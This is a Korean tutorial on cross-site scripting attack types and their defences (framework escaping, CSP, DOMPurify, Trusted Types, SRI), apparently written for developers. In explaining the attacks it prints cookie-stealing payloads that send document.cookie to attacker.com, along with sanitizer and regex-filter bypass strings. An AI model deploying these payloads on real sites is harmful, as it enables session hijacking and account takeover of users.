

# XSS (Cross-Site Scripting)

웹 애플리케이션에 악성 JavaScript를 삽입해 다른 사용자의 브라우저에서 실행시키는 공격이다. SQL 인젝션이 서버를 노린다면, XSS는 사용자를 노린다.

XSS가 위험한 이유는 공격자가 피해자의 세션에서 코드를 실행할 수 있기 때문이다. 로그인된 상태에서 공격자의 스크립트가 실행되면, 그 스크립트는 피해자가 할 수 있는 모든 것을 할 수 있다.

---

## 공격 유형별 동작 원리

### Stored XSS (저장형)

악성 스크립트가 서버 DB에 저장되고, 다른 사용자가 해당 데이터를 조회할 때 브라우저에서 실행된다. 게시판, 댓글, 프로필 소개란이 대표적인 공격 지점이다.

```mermaid
sequenceDiagram
    participant 공격자
    participant 서버
    participant DB
    participant 피해자 브라우저
    participant 공격자 서버

    Note over 공격자, DB: 1단계 — 악성 페이로드 저장
    공격자->>서버: POST /comments<br/>content=&lt;img src=x onerror=...&gt;
    서버->>DB: 댓글 데이터 저장 (sanitize 누락)

    Note over 피해자 브라우저, 공격자 서버: 2단계 — 정상 사용자가 피해를 입음
    피해자 브라우저->>서버: GET /post/123
    서버->>DB: 댓글 조회
    DB-->>서버: 저장된 댓글 반환
    서버-->>피해자 브라우저: HTML 응답에 댓글 그대로 포함
    Note over 피해자 브라우저: 브라우저가 onerror 핸들러 실행
    피해자 브라우저->>공격자 서버: document.cookie 전송
```

Stored XSS는 공격자가 피해자에게 특정 URL을 클릭하게 만들 필요가 없다. 사용자가 정상적으로 페이지를 방문하는 것만으로 감염된다. 게시판 조회수가 높은 글에 스크립트를 심으면 대규모 피해가 발생한다.

실제 공격 시나리오 — 게시판 댓글을 통한 세션 탈취:

```html
<!-- 공격자가 댓글로 입력한 내용 -->

```

`<script>` 태그는 대부분의 필터가 잡아낸다. 실제 공격은 이벤트 핸들러를 이용하는 경우가 많다. ``, `<svg>`, `<details>` 같은 태그의 `onerror`, `onload`, `ontoggle` 속성을 사용한다.

### Reflected XSS (반사형)

서버가 요청 파라미터를 응답에 그대로 포함할 때 발생한다. 검색 결과 페이지가 대표적이다.

```mermaid
sequenceDiagram
    participant 공격자
    participant 피해자
    participant 피해자 브라우저
    participant 서버
    participant 공격자 서버

    공격자->>피해자: 피싱 메일로 조작된 URL 전달<br/>https://target.com/search?q=&lt;script&gt;...&lt;/script&gt;
    피해자->>피해자 브라우저: 링크 클릭
    피해자 브라우저->>서버: GET /search?q=&lt;script&gt;...&lt;/script&gt;
    Note over 서버: 검색어를 응답 HTML에 그대로 삽입
    서버-->>피해자 브라우저: &lt;p&gt;검색어: &lt;script&gt;...&lt;/script&gt;&lt;/p&gt;
    Note over 피해자 브라우저: 응답 HTML 파싱하며 스크립트 실행
    피해자 브라우저->>공격자 서버: document.cookie 전송
```

```
// 정상 요청
GET /search?q=spring+boot

// 공격 URL
GET /search?q=<script>document.location='https://attacker.com/steal?c='+document.cookie</script>
```

서버 측 코드가 검색어를 이스케이프 없이 HTML에 삽입하면 스크립트가 실행된다:

```java
// 취약한 서블릿 코드
@GetMapping("/search")
public String search(@RequestParam String q, Model model) {
    model.addAttribute("query", q);  // 이스케이프 없이 전달
    return "search-result";
}
```

```html
<!-- 취약한 Thymeleaf 템플릿 -->
<p>검색어: <span th:utext="${query}"></span></p>
<!-- th:utext는 HTML을 그대로 출력한다. 여기에 스크립트가 들어오면 실행됨 -->
```

Reflected XSS는 공격자가 피해자에게 조작된 URL을 클릭하게 만들어야 한다. 피싱 메일이나 단축 URL 서비스를 통해 유포한다.

### DOM-based XSS

서버를 거치지 않고 브라우저의 JavaScript가 DOM을 조작하는 과정에서 발생한다. 서버 로그에 흔적이 남지 않아 탐지가 어렵다.



```javascript
// URL: https://example.com/page#

// 취약한 코드 — location.hash를 innerHTML로 넣는다
const hash = decodeURIComponent(location.hash.substring(1));
document.getElementById('content').innerHTML = hash;
```

DOM-based XSS의 소스(입력)와 싱크(실행 지점)를 구분해서 파악해야 한다:

| 소스 (사용자 입력이 들어오는 곳) | 싱크 (코드가 실행되는 곳) |
|------|------|
| `location.hash` | `innerHTML` |
| `location.search` | `document.write()` |
| `document.referrer` | `eval()` |
| `window.name` | `setTimeout(문자열)` |
| `postMessage` 데이터 | `jQuery.html()` |

소스에서 가져온 값을 싱크에 넣기 전에 반드시 검증하거나 안전한 API를 써야 한다.

### mXSS (Mutation XSS)

DOM-based XSS의 변종이다. sanitize 라이브러리가 안전하다고 판단해 통과시킨 HTML이, 브라우저가 DOM에 삽입하는 과정에서 다른 형태로 변형되며 스크립트를 실행시키는 공격이다. "안전한 입력" → "위험한 출력"이 만들어진다.

핵심 원리는 두 가지 파싱 결과의 차이다. sanitize 라이브러리는 입력 문자열을 한 번 파싱한다. 그 뒤 결과를 `innerHTML`로 다시 넣으면 브라우저가 또 한 번 파싱한다. 두 파서의 동작이 다르면 원본에 없던 토큰이 만들어진다.

```javascript
// mXSS 대표 패턴 — 잘못된 nesting을 브라우저가 "교정"한다
const input = '<noscript><p title="</noscript>">';

// sanitize 라이브러리가 보기엔 평범한 <p title="..."> 속성값
// → 통과

// innerHTML로 넣으면 브라우저가 <noscript> 닫힘 시점을 다르게 해석
// → 가 실제 태그로 분리됨
container.innerHTML = sanitize(input);
```

#### namespace confusion

HTML, SVG, MathML은 같은 트리에 들어갈 수 있지만 파싱 규칙이 다르다. 특히 MathML의 `<mglyph>`, `<malignmark>`나 SVG의 `<style>`이 들어가면 토큰화 모드가 바뀐다.

```javascript
// HTML 모드에서는 <style>...</style> 안의 내용이 텍스트로 처리됨
// → sanitize는 텍스트로만 본다
const payload = `
<math>
  <mtext>
    <table>
      <mglyph>
        <style></style>
      </mglyph>
    </table>
  </mtext>
</math>
`;

// 그러나 innerHTML로 다시 넣으면 table이 mtext 밖으로 밀려나면서
// <style> 안의 내용이 HTML로 재파싱되어 가 진짜 태그가 된다
```

이 패턴은 DOMPurify 2.0.12 이전 버전에서 실제로 우회 가능했다. 현재는 패치되었지만 구조적 문제이므로 비슷한 변종이 계속 발견된다.

#### innerHTML 재파싱 차이

같은 문자열도 어디에 넣느냐에 따라 다르게 파싱된다.

```javascript
// 같은 입력
const html = '<a href="javascript&colon;alert(1)">click</a>';

// (1) DOMParser로 파싱해 a.href 검증 → "javascript:" 가 아님 → 통과
const doc = new DOMParser().parseFromString(html, 'text/html');
const href = doc.querySelector('a').getAttribute('href');
// "javascript&colon;alert(1)" — 안전해 보인다

// (2) innerHTML로 넣으면 HTML 엔티티가 디코딩되어 javascript: 프로토콜이 됨
container.innerHTML = html;
// 클릭 시 alert(1) 실행
```

방어 방법은 sanitize 결과를 다시 문자열로 직렬화하지 않는 것이다.

```javascript
// RETURN_DOM_FRAGMENT 옵션을 쓰면 DOM 객체가 반환된다
// 다시 문자열화 → innerHTML 경로를 거치지 않으므로 mXSS 차단
const fragment = DOMPurify.sanitize(dirty, { RETURN_DOM_FRAGMENT: true });
container.appendChild(fragment);
```

mXSS는 sanitize 로직 자체의 버그가 아니라 브라우저 파서의 동작에 의존하는 문제다. DOMPurify 같은 검증된 라이브러리를 최신 버전으로 유지하는 것 외에 직접 막기 어렵다.

---

## 쿠키 탈취 시나리오와 방어

XSS로 가장 흔히 시도하는 공격이 쿠키 탈취다. 전체 흐름을 보면:

```
1. 공격자가 게시판에 악성 스크립트 삽입
2. 피해자가 게시글 열람
3. 스크립트가 document.cookie를 읽어 공격자 서버로 전송
4. 공격자가 탈취한 세션 쿠키로 피해자 계정에 접근
```

```javascript
// 공격 스크립트 예시
new Image().src = "https://attacker.com/log?c=" + document.cookie;

// 더 은밀한 방법 — navigator.sendBeacon은 페이지 이탈 시에도 전송된다
navigator.sendBeacon("https://attacker.com/log", document.cookie);
```

### HttpOnly 쿠키

`HttpOnly` 플래그가 설정된 쿠키는 JavaScript에서 접근할 수 없다. `document.cookie`로 읽히지 않는다.

```java
// Spring Boot — 세션 쿠키에 HttpOnly 설정
// application.yml
// server:
//   servlet:
//     session:
//       cookie:
//         http-only: true
//         secure: true
//         same-site: strict

// 직접 쿠키를 설정하는 경우
ResponseCookie cookie = ResponseCookie.from("sessionId", sessionId)
    .httpOnly(true)
    .secure(true)
    .sameSite("Strict")
    .path("/")
    .maxAge(Duration.ofHours(1))
    .build();
response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
```

HttpOnly만으로 XSS 방어가 끝나는 게 아니다. XSS가 성공하면 쿠키를 못 읽더라도 피해자의 세션에서 API를 직접 호출할 수 있다. 비밀번호 변경, 송금 요청 같은 작업을 스크립트로 수행한다. HttpOnly는 피해를 줄이는 장치지, XSS 자체를 막는 건 아니다.

---

## 프레임워크별 방어 메커니즘

### React

React는 JSX에서 변수를 렌더링할 때 자동으로 이스케이프한다.

```jsx
// 안전하다 — React가 자동 이스케이프
const userInput = '<script>alert("xss")</script>';
return <div>{userInput}</div>;
// 렌더링 결과: &lt;script&gt;alert("xss")&lt;/script&gt;
```

문제는 `dangerouslySetInnerHTML`이다. 이름에서부터 위험하다고 알려주고 있다.

```jsx
// 위험 — HTML을 그대로 렌더링한다
function Comment({ content }) {
    return <div dangerouslySetInnerHTML={{ __html: content }} />;
}
```

`dangerouslySetInnerHTML`을 써야 하는 경우가 있다. 위지윅 에디터의 출력물이나 마크다운 렌더링 결과를 표시할 때다. 이 경우 반드시 서버 사이드에서 sanitize한 뒤 전달하거나, 클라이언트에서 DOMPurify를 거쳐야 한다.

```jsx
import DOMPurify from 'dompurify';

function Comment({ rawHtml }) {
    const clean = DOMPurify.sanitize(rawHtml);
    return <div dangerouslySetInnerHTML={{ __html: clean }} />;
}
```

React에서 XSS가 발생하는 다른 경로:

```jsx
// href에 javascript: 프로토콜이 들어가면 클릭 시 스크립트 실행
// React 16.9부터 경고가 뜨지만, 차단하지는 않는다
const userUrl = "javascript:alert('xss')";
return <a href={userUrl}>클릭</a>;

// 방어: URL 스킴을 검증한다
function isSafeUrl(url) {
    try {
        const parsed = new URL(url);
        return ['http:', 'https:', 'mailto:'].includes(parsed.protocol);
    } catch {
        return false;
    }
}
```

### Vue.js

Vue도 머스태시(`{{ }}`) 보간과 `v-bind` 속성 바인딩에서 자동으로 텍스트 이스케이프를 한다. React와 마찬가지로 일반적인 사용에서는 안전하다.

```vue
<template>
  <!-- 안전 — 텍스트로 렌더링됨 -->
  <p>{{ userInput }}</p>
  <!-- userInput이 <script>alert(1)</script>이면 그대로 텍스트 출력 -->

  <!-- 안전 — 속성값도 이스케이프됨 -->
  <input :value="userInput">
</template>
```

문제는 `v-html` 디렉티브다. 이름이 명확해서 코드 리뷰에서 잡기는 쉽다.

```vue
<template>
  <!-- 위험 — innerHTML로 동작한다 -->
  <div v-html="userContent"></div>
</template>

<script setup>
import DOMPurify from 'dompurify';
import { computed } from 'vue';

const props = defineProps(['userContent']);

// sanitize한 결과를 v-html에 바인딩
const safeContent = computed(() => DOMPurify.sanitize(props.userContent));
</script>

<template>
  <div v-html="safeContent"></div>
</template>
```

Vue에서 자주 놓치는 부분은 컴포넌트 props로 전달되는 동적 속성이다.

```vue
<!-- 위험 — href에 javascript: 가 들어가면 실행됨 -->
<a :href="userUrl">{{ linkText }}</a>

<!-- v-bind="$attrs" 로 알려지지 않은 속성을 통째로 넘기면
     onerror, onclick 같은 이벤트 핸들러 속성도 함께 전달될 수 있다 -->
<custom-input v-bind="$attrs" />
```

서버 사이드 렌더링(Nuxt, Vue SSR)에서 `<script>` 태그 안에 데이터를 직렬화해 넣을 때도 주의한다. 직렬화 라이브러리가 `</script>` 문자열을 이스케이프하지 않으면 응답 HTML이 분리된다.

```javascript
// 위험한 직렬화
res.send(`<script>window.__INITIAL_STATE__ = ${JSON.stringify(state)}</script>`);
// state에 "</script><script>alert(1)" 가 들어가면 깨짐

// 안전한 직렬화 — serialize-javascript 사용
import serialize from 'serialize-javascript';
res.send(`<script>window.__INITIAL_STATE__ = ${serialize(state)}</script>`);
// </ → <\/ 형태로 이스케이프됨
```

### Angular

Angular는 보안 컨텍스트를 강하게 구분하는 편이다. 템플릿 보간과 속성 바인딩에서 자동으로 sanitize가 적용된다. 6개의 보안 컨텍스트가 있다 — HTML, STYLE, SCRIPT, URL, RESOURCE_URL, NONE.

```html
<!-- 안전 — HTML 컨텍스트로 sanitize됨 -->
<div [innerHTML]="userContent"></div>
<!-- <script> 태그는 자동 제거됨, 이벤트 핸들러도 제거됨 -->

<!-- 안전 — URL 컨텍스트, javascript: 프로토콜 차단 -->
<a [href]="userUrl">link</a>
```

Angular의 `[innerHTML]`은 React의 `dangerouslySetInnerHTML`이나 Vue의 `v-html`과 다르다. 자동 sanitize가 적용되어 그냥 써도 위험한 태그가 제거된다. 그러나 sanitize 규칙이 모든 케이스를 커버하지 않으므로 신뢰할 수 없는 입력에는 추가 검증이 필요하다.

위험은 `bypassSecurityTrust*` API를 사용할 때다.

```typescript
import { DomSanitizer } from '@angular/platform-browser';

@Component({...})
export class CommentComponent {
  constructor(private sanitizer: DomSanitizer) {}

  // 위험 — Angular의 보안 검사를 건너뛴다
  getHtml(content: string) {
    return this.sanitizer.bypassSecurityTrustHtml(content);
  }

  // 위험 — javascript: URL도 통과시킨다
  getUrl(url: string) {
    return this.sanitizer.bypassSecurityTrustUrl(url);
  }
}
```

`bypassSecurityTrust*`는 입력이 절대적으로 신뢰 가능할 때만 사용한다. 사용자 입력에 적용하면 자동 방어가 무력화된다. 코드 리뷰에서 이 메서드 호출이 보이면 반드시 출처를 확인해야 한다.

`RESOURCE_URL` 컨텍스트는 더 엄격하다. iframe `src`, script `src` 같은 곳은 sanitize로 우회할 수 없고 반드시 `bypassSecurityTrustResourceUrl`을 거쳐야 한다. 사용자 입력을 iframe src로 그대로 쓸 수 없게 강제한다.

### Thymeleaf (Spring 기반)

`th:text`와 `th:utext`의 차이가 핵심이다.

```html
<!-- th:text — HTML 이스케이프 처리. 안전하다 -->
<p th:text="${userInput}"></p>
<!-- 입력: <script>alert(1)</script> -->
<!-- 출력: &lt;script&gt;alert(1)&lt;/script&gt; -->

<!-- th:utext — HTML 그대로 출력. 위험하다 -->
<p th:utext="${userInput}"></p>
<!-- 입력: <script>alert(1)</script> -->
<!-- 출력: <script>alert(1)</script> → 스크립트 실행됨 -->
```

`th:utext`는 관리자가 작성한 공지사항처럼 신뢰할 수 있는 HTML만 출력할 때 사용한다. 사용자 입력에는 절대 쓰면 안 된다. 코드 리뷰에서 `th:utext`가 보이면 해당 데이터의 출처를 반드시 확인해야 한다.

속성에서도 주의할 점이 있다:

```html
<!-- th:attr로 속성값을 설정할 때도 이스케이프된다 -->
<a th:href="${userUrl}">링크</a>
<!-- 하지만 javascript: 프로토콜은 이스케이프로 막을 수 없다 -->

<!-- 서버에서 URL 스킴을 검증한다 -->
```

### JSP (레거시)

아직 JSP를 쓰는 프로젝트가 있다. 스크립틀릿에서 `<%= %>` 으로 출력하면 이스케이프가 없다.

```jsp
<!-- 취약 -->
<p>검색어: <%= request.getParameter("q") %></p>

<!-- JSTL로 교체 — 기본 이스케이프 적용 -->
<p>검색어: <c:out value="${param.q}" /></p>

<!-- EL 표현식에서도 fn:escapeXml 사용 -->
<p>검색어: ${fn:escapeXml(param.q)}</p>
```

---

## CSP (Content Security Policy) 설정

CSP는 브라우저에게 어떤 리소스를 로드하고 실행할 수 있는지 알려주는 HTTP 헤더다. XSS가 발생하더라도 공격자의 스크립트 실행을 차단할 수 있다.

### 기본 설정

```
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; connect-src 'self' https://api.example.com
```

각 디렉티브의 의미:

| 디렉티브 | 설명 |
|----------|------|
| `default-src 'self'` | 명시하지 않은 리소스는 같은 출처에서만 로드 |
| `script-src 'self'` | 스크립트는 같은 출처에서만 로드. 인라인 스크립트 차단 |
| `style-src 'self' 'unsafe-inline'` | 인라인 스타일 허용. 스타일은 XSS 위험이 상대적으로 낮다 |
| `connect-src` | fetch, XMLHttpRequest 등 네트워크 요청 대상 제한 |

### CSP와 XSS 방어의 연계

CSP가 XSS를 막는 핵심 원리:

1. **인라인 스크립트 차단** — `<script>alert(1)</script>` 같은 인라인 코드가 실행되지 않는다
2. **외부 스크립트 출처 제한** — 공격자 서버에서 스크립트를 로드할 수 없다
3. **eval() 차단** — `script-src`에 `'unsafe-eval'`이 없으면 eval 계열 함수가 차단된다

```java
// Spring Security에서 CSP 설정
@Bean
public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
    http.headers(headers -> headers
        .contentSecurityPolicy(csp -> csp
            .policyDirectives("default-src 'self'; script-src 'self'; object-src 'none'")
        )
    );
    return http.build();
}
```

### nonce 기반 CSP

인라인 스크립트를 허용해야 하는 경우, 매 요청마다 랜덤 nonce를 생성해서 허용하는 방법이 있다. `'unsafe-inline'`보다 안전하다.

```
Content-Security-Policy: script-src 'nonce-abc123def456'
```

```html
<!-- nonce가 일치하는 스크립트만 실행된다 -->
<script nonce="abc123def456">
    // 이 스크립트는 실행됨
</script>

<script>
    // nonce가 없으므로 차단됨
    alert('blocked');
</script>
```

```java
// Spring에서 nonce 생성 및 적용
@Component
public class CspNonceFilter extends OncePerRequestFilter {
    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                     HttpServletResponse response,
                                     FilterChain chain) throws ServletException, IOException {
        String nonce = Base64.getEncoder().encodeToString(
            SecureRandom.getInstanceStrong().generateSeed(16)
        );
        request.setAttribute("cspNonce", nonce);
        response.setHeader("Content-Security-Policy",
            "script-src 'nonce-" + nonce + "' 'strict-dynamic'");
        chain.doFilter(request, response);
    }
}
```

### strict-dynamic

`'strict-dynamic'`은 nonce나 hash로 신뢰된 스크립트가 동적으로 로드하는 자식 스크립트도 자동으로 신뢰하는 키워드다. CSP3에 도입되었다. nonce가 붙은 메인 스크립트가 `document.createElement('script')`로 다른 스크립트를 만들어 붙이면 그 스크립트도 실행된다. nonce가 없어도 신뢰가 전파된다.

```
Content-Security-Policy: script-src 'nonce-abc123' 'strict-dynamic' https: 'unsafe-inline'
```

위 정책의 의미가 흥미롭다. `'strict-dynamic'`을 지원하는 최신 브라우저는 `https:`와 `'unsafe-inline'`을 무시하고 nonce/hash만 신뢰한다. 지원하지 않는 구형 브라우저는 `'strict-dynamic'`을 무시하고 `https:` `'unsafe-inline'`을 적용한다. 같은 헤더로 이중 호환성을 만든다.

`'strict-dynamic'`을 쓰면 `https://www.google-analytics.com` 같은 출처 화이트리스트를 일일이 관리하지 않아도 된다. 메인 스크립트에서 GA 스크립트를 동적으로 붙이는 패턴이라면 자동으로 허용된다. 화이트리스트 누락으로 서드파티가 끊기는 사고를 줄일 수 있다.

주의할 점은 `<script src="...">` 태그에 nonce를 직접 붙여야 신뢰가 시작된다는 것이다. 정적인 외부 스크립트 태그를 그냥 두면 차단된다.

### hash-based CSP

매 요청마다 nonce를 생성하기 어려운 경우(정적 파일, CDN 캐시) 스크립트의 SHA 해시를 CSP에 박아 놓는 방법이 있다.

```html
<!-- 인라인 스크립트의 내용 -->
<script>console.log('hello');</script>
```

위 스크립트의 SHA-256 해시를 CSP에 등록한다.

```bash
# 해시 계산
echo -n "console.log('hello');" | openssl dgst -sha256 -binary | openssl base64
# → JIWqouqr3OuFLU/ZKlLqI4tH/SsSyEStoDM6yebCcEs=
```

```
Content-Security-Policy: script-src 'sha256-JIWqouqr3OuFLU/ZKlLqI4tH/SsSyEStoDM6yebCcEs='
```

해시가 일치하는 인라인 스크립트만 실행된다. 외부 스크립트 파일도 hash로 허용할 수 있다.

hash 방식의 한계는 명확하다. 스크립트가 한 글자라도 바뀌면 해시도 바뀐다. 빌드 시점에 해시를 계산해 헤더에 자동으로 넣는 파이프라인을 만들어야 한다. 스크립트가 자주 바뀌는 SPA에는 잘 안 맞고, 정적 사이트나 서버 렌더링 페이지에 적합하다.

### CSP 적용 시 주의사항

처음부터 엄격한 CSP를 적용하면 기존 기능이 깨지는 경우가 많다. 서드파티 스크립트(Google Analytics, 결제 모듈 등)가 차단된다.

도입 순서:

1. `Content-Security-Policy-Report-Only` 헤더로 리포트만 수집한다. 차단은 하지 않는다.
2. 리포트를 분석해 필요한 출처를 허용 목록에 추가한다.
3. 기존 기능에 문제가 없는지 확인한 뒤 `Content-Security-Policy`로 전환한다.

```
# 1단계: 리포트 모드
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-report

# 2단계: 서드파티 허용 추가
Content-Security-Policy-Report-Only: default-src 'self'; script-src 'self' https://www.googletagmanager.com; report-uri /csp-report

# 3단계: 실제 적용
Content-Security-Policy: default-src 'self'; script-src 'self' https://www.googletagmanager.com
```

---

## DOMPurify 설정과 주의점

HTML을 사용자에게 보여줘야 하는 경우(위지윅 에디터, 마크다운 렌더링 결과)에 DOMPurify로 sanitize한다.

### 기본 사용

```javascript
import DOMPurify from 'dompurify';

// 기본 — 위험한 태그와 속성을 제거한다
const dirty = '<p>정상 텍스트</p><script>alert("xss")</script>';
const clean = DOMPurify.sanitize(dirty);
// 결과: <p>정상 텍스트</p>
// script 태그가 제거되고, onerror 속성이 제거됨
```

### 설정 옵션

```javascript
// 허용할 태그를 명시적으로 지정 — 화이트리스트 방식
const clean = DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS: ['p', 'b', 'i', 'em', 'strong', 'a', 'ul', 'ol', 'li', 'br'],
    ALLOWED_ATTR: ['href', 'target']
});

// 특정 태그만 추가로 금지
const clean = DOMPurify.sanitize(dirty, {
    FORBID_TAGS: ['style', 'form', 'input'],
    FORBID_ATTR: ['style', 'onclick', 'onerror']
});
```

### 주의해야 할 설정

```javascript
// RETURN_DOM_FRAGMENT나 RETURN_DOM을 true로 설정하면
// DOMPurify가 문자열이 아닌 DOM 객체를 반환한다.
// innerHTML에 직접 할당하면 안 되고, appendChild로 추가해야 한다.
const fragment = DOMPurify.sanitize(dirty, { RETURN_DOM_FRAGMENT: true });
document.getElementById('content').appendChild(fragment);

// ADD_TAGS, ADD_ATTR는 기본 허용 목록에 추가하는 옵션이다.
// 무분별하게 추가하면 sanitize의 의미가 없어진다.
// 특히 'iframe'을 ADD_TAGS에 넣으면 외부 페이지를 삽입할 수 있게 되므로 주의한다.
const clean = DOMPurify.sanitize(dirty, {
    ADD_TAGS: ['iframe'],  // 위험할 수 있다
    ADD_ATTR: ['allowfullscreen']
});
```

### DOMPurify 우회 사례

DOMPurify는 지속적으로 업데이트되고 있지만, 과거 버전에서 우회 취약점이 발견된 적이 있다.

```javascript
// DOMPurify 2.0.12 이전 버전에서 mutation XSS 취약점이 있었다
// 브라우저의 HTML 파서와 DOMPurify의 파싱 결과가 다른 점을 악용
// <math><mtext><table><mglyph><style><!--</style>

// 대응: DOMPurify를 항상 최신 버전으로 유지한다
// package.json에서 버전을 고정하지 말고 패치 버전은 자동 업데이트되게 한다
// "dompurify": "^3.0.0"
```

sanitize 로직을 직접 구현하면 안 된다. 정규식으로 `<script>`를 제거하는 방식은 항상 우회된다.

```javascript
// 잘못된 방어 — 정규식으로 태그 제거
function badSanitize(input) {
    return input.replace(/<script[^>]*>.*?<\/script>/gi, '');
}

// 우회: 대소문자 혼합
// <ScRiPt>alert(1)</ScRiPt>

// 우회: 중첩
// <scr<script>ipt>alert(1)</scr</script>ipt>

// 우회: 이벤트 핸들러 사용
// 

// 정규식으로는 HTML의 모든 엣지 케이스를 처리할 수 없다. DOMPurify를 사용한다.
```

---

## Trusted Types API

DOMPurify를 적용해도 코드 어딘가에서 `element.innerHTML = userInput` 같은 위험한 할당이 누락되면 결국 뚫린다. Trusted Types는 이 문제를 브라우저 레벨에서 막는다. 정책을 설정하면 `innerHTML`, `outerHTML`, `document.write`, `eval` 같은 싱크에 일반 문자열을 넣는 시도를 차단하고, 명시적으로 신뢰된 객체(`TrustedHTML`, `TrustedScript`, `TrustedScriptURL`)만 허용한다.

Chrome, Edge에서 지원되며 Firefox는 일부 지원이다. 점진적 도입을 위해 report-only 모드도 제공한다.

### 정책 활성화

```
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types default app-policy
```

`require-trusted-types-for 'script'`는 모든 위험한 싱크에 TrustedTypes를 요구한다. `trusted-types`는 사용 가능한 정책 이름을 화이트리스트로 등록한다. 등록되지 않은 이름으로 `createPolicy`를 호출하면 예외가 발생한다.

### 정책 생성

```javascript
// 정책 이름은 CSP에서 허용한 것만 가능
const appPolicy = trustedTypes.createPolicy('app-policy', {
  createHTML: (input) => {
    // 여기서 sanitize 로직을 적용한다
    // 반환된 문자열은 TrustedHTML로 래핑된다
    return DOMPurify.sanitize(input);
  },
  createScript: (input) => {
    // 일반적으로 동적 스크립트 생성은 거부하는 게 맞다
    throw new Error('createScript is not allowed');
  },
  createScriptURL: (input) => {
    // 외부 스크립트 URL 화이트리스트
    const allowed = ['https://cdn.example.com/'];
    if (allowed.some(prefix => input.startsWith(prefix))) {
      return input;
    }
    throw new Error('Untrusted script URL: ' + input);
  }
});

// 사용 — 일반 문자열은 차단됨
element.innerHTML = userInput;
// → TypeError: This document requires 'TrustedHTML' assignment

// TrustedHTML 객체로 래핑해야 통과
element.innerHTML = appPolicy.createHTML(userInput);
```

### default 정책

레거시 코드를 한 번에 고치기 어려울 때 `default` 정책을 등록하면, 문자열을 직접 할당하는 모든 시도가 자동으로 default 정책의 함수를 거친다.

```javascript
// 마이그레이션 단계에서 유용
trustedTypes.createPolicy('default', {
  createHTML: (input, sink) => {
    // sink 인자로 어디서 호출되었는지 알 수 있다 ('Element innerHTML' 등)
    console.warn(`TrustedTypes default policy hit at ${sink}`);
    return DOMPurify.sanitize(input);
  }
});

// 이후 이 코드는 차단되지 않음 — default 정책이 sanitize함
element.innerHTML = userInput;
```

default 정책은 강력하지만 그만큼 위험하다. 모든 호출을 한 곳에서 처리하므로 default 정책 자체에 버그가 있으면 전체가 뚫린다. 점진적 마이그레이션 도구로만 쓰고, 최종적으로는 명시적 정책 호출로 옮기는 게 권장된다.

### DOMPurify와의 연계

DOMPurify는 3.0부터 Trusted Types를 네이티브로 지원한다. `RETURN_TRUSTED_TYPE` 옵션을 켜면 `TrustedHTML` 객체를 반환한다.

```javascript
const clean = DOMPurify.sanitize(dirty, {
  RETURN_TRUSTED_TYPE: true
});
// clean은 TrustedHTML 객체

element.innerHTML = clean;  // 통과
```

별도 정책을 만들지 않아도 DOMPurify가 내부 정책(`dompurify`)을 자동 등록한다. CSP에 `trusted-types dompurify` 같이 정책 이름을 허용해야 한다.

### 도입 순서

처음부터 enforce 모드로 켜면 기존 코드가 대량으로 깨진다. 위반 지점을 먼저 수집하고 고친다.

```
# 1단계: 리포트만 수집
Content-Security-Policy-Report-Only: require-trusted-types-for 'script'; report-uri /tt-report

# 2단계: 정책 등록 + 점진적 코드 수정
Content-Security-Policy-Report-Only: require-trusted-types-for 'script'; trusted-types app-policy 'allow-duplicates'; report-uri /tt-report

# 3단계: enforce
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types app-policy
```

`'allow-duplicates'`는 같은 정책 이름을 여러 번 등록할 수 있게 해주는 키워드다. 멀티 번들 환경에서 유용하지만 보안이 약화되므로 배포 전엔 제거한다.

Trusted Types를 도입하면 DOM-based XSS의 99%를 코드 변경 없이 막을 수 있다. 사용자 입력이 어떤 경로로 흘러들어와도 결국 `innerHTML` 같은 싱크를 통과해야 하기 때문이다. 다만 위험한 호출이 있는 모든 코드를 정책 호출로 바꿔야 하므로 마이그레이션 비용이 작지 않다.

---

## Subresource Integrity (SRI)

CDN에서 jQuery, React 같은 스크립트를 로드하는 경우, CDN이 침해되거나 중간자 공격으로 스크립트가 변조되면 그게 곧 XSS다. CSP의 화이트리스트는 출처만 검증하지 콘텐츠는 검증하지 않는다. SRI는 스크립트 콘텐츠의 해시를 HTML에 박아 두어, 다운로드된 콘텐츠가 일치하지 않으면 브라우저가 실행을 거부하게 만든다.

### 기본 사용

```html
<script
  src="https://cdn.example.com/library.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
  crossorigin="anonymous"></script>

<link
  rel="stylesheet"
  href="https://cdn.example.com/style.css"
  integrity="sha384-AbCdEf..."
  crossorigin="anonymous">
```

`integrity` 속성에 해시 알고리즘과 base64 인코딩된 해시를 넣는다. SHA-256, SHA-384, SHA-512가 지원되며 SHA-384가 사실상 표준이다. `crossorigin="anonymous"`는 CDN 응답에 적절한 CORS 헤더가 있어야 SRI 검증이 동작하기 때문에 필요하다.

해시 계산:

```bash
# CDN에서 다운로드한 파일의 해시
curl -s https://cdn.example.com/library.js | \
  openssl dgst -sha384 -binary | \
  openssl base64 -A
```

### CSP와의 연계

CSP에 `require-sri-for` 디렉티브를 쓰면 SRI 없는 스크립트 로드를 차단할 수 있었지만, 이 디렉티브는 표준에서 빠졌다. 현재는 각 `<script>` 태그에 직접 `integrity`를 붙이는 방식만 표준이다.

대신 `script-src`에 해시를 직접 넣을 수 있다.

```
Content-Security-Policy: script-src 'sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC' https://cdn.example.com
```

### 운영 시 주의사항

CDN의 라이브러리 버전을 자동 업데이트하면 SRI 해시가 매번 깨진다. 반드시 버전을 픽스해야 한다.

```html
<!-- 위험 — 버전이 변하면 해시가 안 맞아 차단됨 -->
